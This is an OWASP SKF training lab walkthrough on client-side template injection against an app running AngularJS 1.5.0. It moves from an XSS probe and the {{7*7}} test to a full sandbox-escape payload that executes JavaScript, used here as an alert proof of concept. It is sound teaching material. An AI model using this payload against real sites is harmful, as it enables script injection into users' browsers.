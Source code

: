 # Client Side Template Injection - CSTI

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-csti
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-csti
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

This application has a very cool interface, powered by a very cool framework that, every time the page is rendered, will scan the page for template expressions and evaluate them.

Before we deep dive in the exploitation phase, let's introduce how a template engins renders elements inside the page and how we can detect a Client Side Template Injection. If we look at the `index.ejs` page in the source code, we can see that a variable `<%= CSTI %>` is used in the page

```html
<center><p style="font-size:2em;"><%= CSTI %></p></center>
```

#### Step 2

This can look like a XSS, but if we try to inject HTML tags we get a nice print-out from the application. Let's try!

We are going to use the same payload of the XSS lab

```html
">
<script>
  alert("XSS");
</script>
```

Unfortunately the alert does not trigger :(

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/CSTI/1.png)

This is becuase AngularJS sanitize by default the input that will be reflected in the page.

#### Step3

How do we get XSS?

AngularJS parses and renders every expression between curly brackets. So if we pass an arithmentic expression, such as `{{7*7}}`, we should expect `49` as a result.

!![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/CSTI/2.png)

Bingo!!

## Exploitation

Now that we know that the frontend is vulnerable to a client side template injection, we want to do more than just printing out nice numbers.

Because Angular uses parsers to evaluate every expression in curly brackets, sanitize HTML values (through ng-bind-html attributes, if explicitly) and uses a sandbox to avoid JavaScript code to call functions outside of the Angular scope object, we need to go though the following steps to have a successful exploit:

- break the sanitizer
- escape the sandbox
- forge a working payload

In this case, we do not need to find new way to do this, but we can just see if we can re-use a payload available for our version of Angular.

#### Step 1

We want to identify wich version is used in the frontend. If we look at the source code we can see that in the `<head>` tag Angular v1.5.0 is loaded.

```html
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js"></script>
```

We need a payload that will allow us to inject JavaScript commands in the DOM and escape the sandbox, and, of course, pop up an alert box (just as a PoC)

#### Step 2

Looking at possible payloads we found a working one for Angular <= 1.5.0

```JavaScript
{{ c=''.sub.call;b=''.sub.bind;a=''.sub.apply; c.$apply=$apply;c.$eval=b;op=$root.$$phase; $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString; C=c.$apply(c);$root.$$phase=op;$root.$digest=od; B=C(b,c,b);$evalAsync(" astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "); m1=B($$asyncQueue.pop().expression,null,$root); m2=B(C,null,m1);[].push.apply=m2;a=''.sub; $eval('a(b.c)');[].push.apply=a; }}
```

We are not going in the details on how the exploit works, but you can refer to a nice blog post from PortsWigger. What we can say, is that the escape, breaks out of the sandbox (we are not in the scope object anymore) and allows us to execute JS in the DOM itself.

As we can see, our `alert(1)` is present in the payload. If we copy it in our input box we see that the full payload is reflected 'as-it-is', but the JavaScript is executed

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/CSTI/3.png)

Now we are able to execute JavaScript code in our DOM.

This would work if we would have used the latest version of Angular and escaped malicious characters.

## Additional sources

{% embed url="https://portswigger.net/blog/dom-based-angularjs-sandbox-escapes" %}

{% embed url="https://docs.angularjs.org/guide/security" %}
